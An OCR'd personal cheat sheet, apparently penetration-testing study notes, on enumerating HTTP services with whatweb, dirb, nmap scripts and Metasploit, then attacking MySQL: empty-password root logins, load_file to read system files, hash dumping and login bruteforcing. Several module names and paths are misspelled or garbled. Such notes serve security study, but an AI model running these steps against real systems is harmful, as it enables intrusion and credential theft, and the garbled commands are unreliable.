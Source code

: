   

  

### HTTP

  

> first when we see a port 80,443 , we have a http,https , so open the ip on web browser

- `whatweb <ip>` =⇒ to see some basic info about it
- `dirb <url>` ⇒ bruteforce to directors
- `browsh - -startup-url <url>` ⇒ that will open the website in your command line

  

- To enum with nmap script ⇒ `nmap <ip> -sV -p 80 - -script=http-enum`
- To return with all headers ⇒ `nmap <ip> -sV -p 80 - -script=http-headers`
- To dig in path in website ⇒ `nmap <ip> -sV -p 80 - -script=http-methods - -script-args http-methods.url-path=/<path>/`

  

> in most cases when u see the app hosting on apache , The app on ubuntu

  

- if the app hosting in Apache (Metasploit)⇒ msfconsole
    
    1. To scan about version ⇒_`use auxalari/scanner/http/http_version & set rhost & run`_
    2. To bruteforce the directory ⇒ `_use auxalari/scanner/http/brute_dirs & set rhost & run_`
    3. To explore the robots.txt ⇒ `_use auxalari/scanner/http/robots.txt & set rhost & run_`
    
      
    

> wget , dig ,whatweb ,lynx <url> ,

> **_`robots.txt`_**

  

  

  

### SQL

  

> if we found a MySql while we use nmap , we should see what the version of it and what the hosting of it

- if the hosting is ubuntu , try to login ⇒ _`mysql -h <ip> -u <username(defult in linux root>`_

> if u login in Mysql =⇒

1. if we login , we can see what the databases the server have ⇒ `**_show databases;_**`
2. when u see the databases , u can see in each one ⇒ **_`use <databases name>;`_**
3. then to see what info have ⇒ **_`select * from <table name> ;`_**
4. If we have access we can access any system file ⇒ `select load_file(”<any file in system>”);`

  

- _**U can use Metasploit =⇒**_

1. **_`use auxalry/scanner/mysql/mysql_writeable_dirs`_**
2. `setg rhost` ( to make it global variable for all session ) && `set dir_list /usr/share/wordlist/metas…/data/wordlist/directory.txt` && `set verbose false` && `set password “”` && `run`
3. `**_use auxalry/scanner/mysql/mysql_hashdump_**` ⇒ `set username <val username>` && `set password “”` && run
4. to scan for file ⇒ `**_use auxalry/scanner/mysql/mysql_file_enum && set rhost_**` && `**_set file_list /ust/share/meta…./data/wordlist/sensitive_file.txt_**` && `**_set password “”_**` && `**_run_**`
5. to bruteforce login ⇒ _`use auxalry/scanner/mysql/mysql_login`_ && _`set rhost`_ && _`set pass_file /usr/share/metasploit…./data/wordlist/unix_password.txt`_ && _`set username <username>`_ && _`set stop_on_success true`_
